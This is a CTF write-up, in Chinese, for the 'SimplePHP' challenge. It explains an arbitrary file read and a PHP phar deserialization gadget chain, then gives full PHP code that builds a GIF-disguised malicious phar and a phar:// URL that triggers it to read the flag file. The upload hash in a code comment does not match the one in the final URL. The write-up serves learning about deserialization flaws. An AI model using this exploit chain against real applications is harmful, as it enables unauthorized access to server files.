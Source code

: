 ## SimplePHP

> phar反序列化

首先注意到URL`file.php?file=`可能存在任意文件读取,成功将网站的源代码读取

分析源代码并结合提示`$this->source = phar://phar.jpg`此题目为phar反序列化漏洞

`file.php`中存在`file_exists($file)`可以通过phar进行反序列化

`function.php`中通过`upload_file_check`对文件类型进行了限制

`class.php`中`Test`类下的`file_get`函数中存在`file_get_contents`,可以尝试对flag进行读取

`Test::file_get`由`Test::__get`进行调用,`__get`方法有个特性,当访问类中某个不存在的变量时,会自动对`__get`进行调用,但是没有代码可以直接对`Test`类进行调用,因此需要在某个地方新建一个`Test`类

注意到在`Show`类下的`__toString`函数中有`$this->str['str']->source`,假设`this->str['str']`指向`Test`类,而`Test->source`不存在,因此会对`Test::__get`产生调用,因此可以将`this->str['str']`设置为`Test`

`__toString`方法在试图将类作为字符串输出时进行调用,而在`C1e4r`类中`__destruct`函数中有`echo $this->test;`,假设`$this->test`设置为`Show`,那么就可以对`Show::__toString`进行调用

```php
<?php
    class C1e4r{
        public $test;
        public $str;//$this->str=Show,run Show::__toString
    }
    class Show{
        public $source;
        public $str;//$this->str['str']->source,run Test::_get($key=source)
    }
    class Test{
        public $file;
        public $params;//$this->params['source']=f1ag.php
    }

    $a=new C1e4r();
    $b=new Show();
    $c=new Test();
    $a->str=$b;
    $b->str['str']=$c;
    $c->params['source']='/var/www/html/f1ag.php';//注意使用绝对路径因为..被过滤了
    var_dump($a);

    @unlink("asdf.phar");
    $phar=new Phar("asdf.phar");//后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");//设置文件头
    $phar->setMetadata($a);
    $phar->addFromString("test.txt","asdfghjkl");
    $phar->stopBuffering();
    @system("mv asdf.phar asdf.gif");
    var_dump("upload/".md5("asdf.gif"."172.16.128.254").".jpg");//upload/dd383397744862f041cbd2ee628876af.jpg
?>
```

将`asdf.gif`上传,并访问`file.php?file=phar://upload/337def6af3af5b39784016d8a5e06f8c.jpg`